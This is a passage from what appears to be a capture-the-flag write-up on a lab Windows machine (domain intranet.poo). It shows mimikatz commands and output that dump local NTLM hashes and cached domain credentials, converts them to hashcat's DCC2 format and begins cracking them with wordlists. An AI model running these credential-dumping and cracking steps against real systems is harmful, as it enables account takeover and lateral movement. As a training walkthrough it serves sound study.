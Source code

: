 ```
    lm  - 0: 7b2ab4d63bc9a4c33a345bc5b9d49561
    ntlm- 0: 0e20a30da1637d53042d253d99e416ed

RID  : 000003ff (1023)
User : zc00l
  Hash NTLM: 0ab5e584021f433f9d2e222e35c95261
    lm  - 0: dccb3c3471701f949d318fdca8495be7
    ntlm- 0: 0ab5e584021f433f9d2e222e35c95261
```

The cache is much more interesting as we have two domain accounts here:

```
[[dead:babe::1001]]: PS C:\temp> .\mimikatz.exe token::elevate lsadump::cache exit

mimikatz(commandline) # lsadump::cache
Domain : COMPATIBILITY
SysKey : 6dcfa5e3811b05c0a5206da6384f406f

Local name : COMPATIBILITY ( S-1-5-21-158512341-328150952-995267585 )
Domain name : POO ( S-1-5-21-2413924783-1155145064-2969042445 )
Domain FQDN : intranet.poo

Policy subsystem is : 1.14
LSA Key(s) : 1, default {686c3d5a-8dfb-714b-4a74-6ce5e45bd0f8}
  [00] {686c3d5a-8dfb-714b-4a74-6ce5e45bd0f8} edde363d2913f57c555e9d3b2989e42d432c9fae46f8ca29572822ad3fcbc70e

* Iteration is set to default (10240)

[NL$1 - 3/22/2018 6:45:01 PM]
RID       : 00000452 (1106)
User      : POO\p00_dev
MsCacheV2 : 7afecfd48f35f666ae9f6edd53506d0c

[NL$2 - 3/22/2018 3:36:34 PM]
RID       : 00000453 (1107)
User      : POO\p00_adm
MsCacheV2 : 32c28e9a78d7c3e7d2f84cbfcabebeed

mimikatz(commandline) # exit
Bye!
```

We'll put those in a format hashcat can understand:

```
$DCC2$10240#p00_dev#7afecfd48f35f666ae9f6edd53506d0c
$DCC2$10240#p00_adm#32c28e9a78d7c3e7d2f84cbfcabebeed
```

Using hashcat, let's try all the SecLists password wordlists with a rule (it takes a while since DDC2 is a slow hash):
